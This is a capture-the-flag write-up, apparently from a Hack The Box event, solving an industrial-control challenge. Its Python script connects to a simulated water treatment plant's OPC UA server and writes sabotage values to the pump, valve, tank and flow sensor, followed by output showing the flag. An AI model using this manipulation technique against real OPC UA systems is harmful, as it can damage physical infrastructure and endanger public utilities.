 # Floody
Task Force Phoenix has found a flaw in Volnaya’s water treatment plant, its 2:WaterTreatmentPlant object humming via OPC UA, supplying the government’s command center. Sabotage it to flood the complex and disrupt Operation Blackout:  
- Set inlet valve to 100% open,  
- Increase pump speed to 1600 RPM,  
- Spoof flow sensor to 4 L/s,  
- Raise tank water level to 5m

## Solution
system uses the OPC UA protocol (IEC62541):
* https://en.wikipedia.org/wiki/OPC_Unified_Architecture

python framework:
* https://github.com/FreeOpcUa/python-opcua
* https://python-opcua.readthedocs.io/en/latest/opcua.html

script to read out values, manipulate and get flag:
```python
from opcua import Client, ua
import time

client = Client("opc.tcp://94.237.59.89:36899")
client.connect()
objects = client.get_objects_node()
children = objects.get_children()
water_plant = children[1]
water_children = water_plant.get_children()

print('Getting overview ...')
print()

print('Nodes:')
for child in children:
    print(f'  {child.get_display_name().Text}')

print()
print(f'Childs (WaterTreatmentPlant): ')
for child in water_children:
    print(f'  {child.get_display_name().Text}')
    for value in child.get_children():
        print(f'    {value.get_display_name().Text}: {value.get_value()} ({value.nodeid})')

print('Manipulating values (and wait a bit for flag) ...')
pump = client.get_node('ns=2;i=4') # Pump
tank = client.get_node('ns=2;i=6') # Tank
valve = client.get_node('ns=2;i=10') # Valve
sensors = client.get_node('ns=2;i=13') # Sensors

man_pump = ua.Variant(1600.0, ua.VariantType.Float)
man_tank = ua.Variant(5.0, ua.VariantType.Float)
man_valve = ua.Variant(100.0, ua.VariantType.Float)
man_sensors = ua.Variant(4.0, ua.VariantType.Float)

valve.set_value(man_valve)
pump.set_value(man_pump)
sensors.set_value(man_sensors)
tank.set_value(man_tank)

time.sleep(2)
print('Printing new values ...')
print()

for child in water_children:
    print(f'  {child.get_display_name().Text}')
    for value in child.get_children():
        print(f'    {value.get_display_name().Text}: {value.get_value()}')

client.disconnect()
```

result:
```
┌──(venv)─(kali㉿kali)-[~/Desktop/htb/business-2025]
└─$ python opcua-script.py
Getting overview ...

Nodes:
  Server
  WaterTreatmentPlant

Childs (WaterTreatmentPlant): 
  Pump
    Status: True (NumericNodeId(ns=2;i=3))
    Speed: 1200.0 (NumericNodeId(ns=2;i=4))
  Tank
    WaterLevel: 2.4360291972243764 (NumericNodeId(ns=2;i=6))
    Volume: 2500.0 (NumericNodeId(ns=2;i=7))
  Valve
    Status: True (NumericNodeId(ns=2;i=9))
    PercentOpen: 75.0 (NumericNodeId(ns=2;i=10))
  Sensors
    Pressure: 3.1485218492069245 (NumericNodeId(ns=2;i=12))
    FlowRate: 10.075538378535311 (NumericNodeId(ns=2;i=13))
  Maintenance
    SecretLog: Null (NumericNodeId(ns=2;i=15))

Manipulating values (and wait a bit for flag) ...
Printing new values ...

  Pump
    Status: True
    Speed: 1600.0
  Tank
    WaterLevel: 4.939609173145405
    Volume: 2500.0
  Valve
    Status: True
    PercentOpen: 100.0
  Sensors
    Pressure: 3.132828404899001
    FlowRate: 4.117678895399377
  Maintenance
    SecretLog: HTB{w4t3r_tr34tm3nt_0v3rfl0w3d}

┌──(venv)─(kali㉿kali)-[~/Desktop/htb/business-2025]
└─$ 
```

